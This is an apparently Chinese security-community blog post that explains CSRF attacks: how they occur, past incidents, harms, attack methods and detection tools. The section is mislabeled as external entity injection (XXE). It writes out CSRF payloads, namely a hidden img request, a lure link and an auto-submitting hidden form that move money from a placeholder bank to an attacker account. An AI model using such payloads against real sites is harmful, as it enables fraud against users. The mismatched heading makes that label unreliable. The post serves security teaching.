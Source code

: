 #  TOP10 漏洞详解   
零漏安全  白帽子社区团队   2024-07-30 22:14  
  
本文仅用于技术研究学习，请遵守相关法律，禁止使用本文所提及的相关技术开展非法攻击行为，由于传播、利用本文所提供的信息而造成任何不良后果及损失，与本账号及作者无关。  
  
**关于无问社区**  
  
  
无问社区致力于打造一个面向于网络安全从业人员的技术综合服务社区，可**免费**获取安全技术资料，社区内技术资料知识面覆盖全面，功能丰富。  
  
  
特色功能：划词解析、调取同类技术资料、基于推荐算法，为每一位用户量身定制专属技术资料。  
  
无问社区-官网：http://wwlib.cn  
  
外部实体注入  
  
**1.1发生方式**  
```
第三方网站利用当前网站生效的cookie，从而请求服务器的接口去进行攻击（如转账、修改用户信息等敏感接口）
```  
  
**1.2典型案例**  
```
GMali--->设置邮件转发（2007年）
微博--->自动关注账号
```  
  
**1.3漏洞危害**  
```
1、修改账户信息
2、利用管理员账号，上传木马文件
3、传播蠕虫病毒（点击、扩散、点击...）
4、和其他攻击手段配配合攻击（XSS、SQL注入）
```  
  
**1.4攻击方式**  
```
1、通过图片的img src属性，自动加载，发起get请求<imgsrc="http://superbank.com/bank/transfer.php?nameid=2002&amount1000"width="0"height="0">
2、构成一个超链接，用户点击以后，发起GET请求
<a href="http://superbank.com/transfer.php?amount=10008to=jiangang"taget=" blank">小姐姐在线视频聊天!!
<a/>
3、构建一个隐藏表单，用户访问，自动提交，发起POST请求
<form action="http://superbank.com/withdraw" method=POST>
 <input type="hidden" name="account"value="xiaoming"/>
 <input type="hidden"name="amount" value="1000"/>
 <input type="hidden" name="to" value="jiangang" />
</form>
<script> document.forms[0].submit(); </script>
```  
  
**1.5检测思路**  
```
1、使用BP的CSRF POC功能
2、工具CSRF Tester（半自动）
3、https://github.com/s0md3v/Bolt（全自动）
4、各种云产品，扫描检测（给钱就行）
```  
  